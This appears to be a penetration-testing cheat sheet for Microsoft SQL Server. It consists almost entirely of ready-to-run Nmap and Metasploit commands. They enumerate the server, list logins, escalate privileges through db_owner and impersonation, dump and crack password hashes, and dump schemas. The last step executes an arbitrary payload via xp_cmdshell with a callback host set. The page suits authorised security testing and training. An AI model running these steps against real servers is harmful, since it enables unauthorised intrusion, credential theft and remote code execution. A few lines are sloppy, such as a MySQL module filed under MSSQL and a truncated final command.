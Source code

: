 -   Nmap   
	- `nmap -n -v -sV -Pn -p 1433 –script ms-sql-info,ms-sql-ntlm-info,ms-sql-empty-password IP`

-   Metasploit. Refer this [article](https://www.hackingarticles.in/mssql-penetration-testing-metasploit/).
	-   `msf > use auxiliary/scanner/mssql/mssql_ping`
	-   Search for module
		-   `msf > search mssql`
	-   Version Scanner
		-   `use auxiliary/scanner/mysql/mysql_version`
	-   Enumerate MSSQL configuration setting
		-   admin module that will accept a set of credentials and query a MSSQL for various configuration settings.
			-   `msf > use auxiliary/admin/mssql/mssql_enum`
			-   `msf auxiliary(mssql_enum) > set rhost 192.168.1.104`
			-   `msf auxiliary(mssql_enum) >set password admin123`
			-   `msf auxiliary(mssql_enum) >run`
	-   Identifying SQL Server logins
		-   obtain a list of all logins from a SQL Server with any login.
			-   `use auxiliary/admin/mssql/mssql_enum_sql_logins`
			-   `msf auxiliary(mssql_enum_sql_logins) >set rhost 192.168.1.104`
			-   `msf auxiliary(mssql_enum_sql_logins) > set password admin123`
			-   `msf auxiliary(mssql_enum_sql_logins) > run`
	-   Identify Database owner
		-   This module can be used to escalate privileges to sysadmin if the user has the db_owner role in a trustworthy database owned by a sysadmin user.
			-   `use auxiliary/admin/mssql/mssql_escalate_dbowner`
			-   `msf auxiliary(mssql_escalate_dbowner) > set rhost 192.168.1.104`
			-   `msf auxiliary(mssql_escalate_dbowner) > set password admin123`
			-   `msf auxiliary(mssql_escalate_dbowner) >run`
	-   Identify a User With admin privilege
		-   This module can be used escalate privileges if the IMPERSONATION privilege has been assigned to the use
			-   `use auxiliary/admin/mssql/mssql_escalate_execute_as`
			-   `msf auxiliary(mssql_escalate_execute_as) > set rhost 192.168.1.104`
			-   `msf auxiliary(mssql_escalate_execute_as) > set password admin123`
			-   `msf auxiliary(mssql_escalate_execute_as) > run`
	-   Retrieve MSSQL Password Hashes of Users
		-   This module extracts the usernames and encrypted password hashes from an MSSQL server and stores them for later cracking.
			-   `use auxiliary/scanner/mssql/mssql_hashdump`
			-   `msf auxiliary(mssql_hashdump) > set rhosts 192.168.1.104`
			-   `msf auxiliary(mssql_hashdump) > set password admin123`
			-   `msf auxiliary(mssql_hashdump) > run`
	-   Cracked Password Hashes of Users
		-   This module uses John the Ripper to identify weak passwords that have been acquired from the mssql_hashdump module.
			-   `use auxiliary/analyze/jtr_mssql_fast`
			-   `msf auxiliary(jtr_mssql_fast) > run`
	-   Extracting MYSQL Schema Information
		-   This module attempts to extract the schema from an MSSQL Server Instance.
			-   `use auxiliary/scanner/mssql/mssql_schemadump`
			-   `msf auxiliary(mssql_schemadump) > set rhosts 192.168.1.104`
			-   `msf auxiliary(mssql_schemadump) > set password admin123`
			-   `msf auxiliary(mssql_schemadump) > run`
	-   Exploit xp_cmdshell vulnerability
		-   This module executes an arbitrary payload on a Microsoft SQL Server by using the “xp_cmdshell” stored procedure.
			-   `use exploit/windows/mssql/mssql_payload`
			-   `msf exploit(mssql_payload) >set rhost 192.168.1.104`
			-   `msf exploit(mssql_payload) >set password admin123`
			-   `msf exploit(mssql_payload) >set srvhost 192.168.1.115`
			-   `msf exploit(mssql_payload) >r`
  